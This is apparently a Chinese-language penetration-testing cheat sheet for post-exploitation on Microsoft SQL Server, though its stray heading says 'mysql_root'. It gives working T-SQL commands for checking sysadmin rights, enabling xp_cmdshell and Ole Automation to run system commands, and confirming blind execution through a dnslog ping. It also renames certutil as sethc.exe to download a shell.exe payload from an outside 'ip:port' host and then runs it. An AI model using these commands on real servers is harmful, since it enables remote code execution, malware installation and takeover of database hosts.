 # mysql_root

---

判断权限(是否sa)

```
1=(select is_srvrolemember('sysadmin'))
host_name()!=@@servername
```

1.开启xp_cmdshell（1开启，0关闭）

```
EXEC sp_configure 'show advanced options',1 RECONFIGURE EXEC sp_configure 'xp_cmdshell',1 RECONFIGURE;
```

执行命令

```
exec master..xp_cmdshell "whoami"
```

如报错：未能找到存储过程 'master..xp_cmdshell'

```
EXEC sp_addextendedproc xp_cmdshell,@dllname ='xplog70.dll'declare @o int
sp_addextendedproc 'xp_cmdshell','xpsql70.dll'
```



2.开启sp_oacreate

```
exec sp_configure 'show advanced options', 1;  RECONFIGURE;  exec sp_configure 'Ole Automation Procedures', 1;  RECONFIGURE;
```

sp_oacreate执行命令无回显，需要使用dnslog平台进行判断

```
Declare @runshell INT Exec SP_OACreate 'wscript.shell',@runshell out Exec SP_OAMeTHOD @runshell,'run',null,'ping who.xxxx.dnslog.cn';
```
将certutil复制导temp下

```
declare @o int exec sp_oacreate 'scripting.filesystemobject', @o out exec sp_oamethod @o,'copyfile',null,'C:\Windows\System32\certutil.exe' ,'c:\windows\temp\sethc.exe';
```

利用certutil传马

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\Windows\Temp\sethc.exe -urlcache -split -f "http://ip:port/shell.exe" C:\Windows\Temp\shell.exe'
```
运行
```
Declare @runshell INT Exec SP_OACreate 'wscript.shell',@runshell out Exec SP_OAMeTHOD @runshell,'run',null,'forfiles /c shell.exe';
```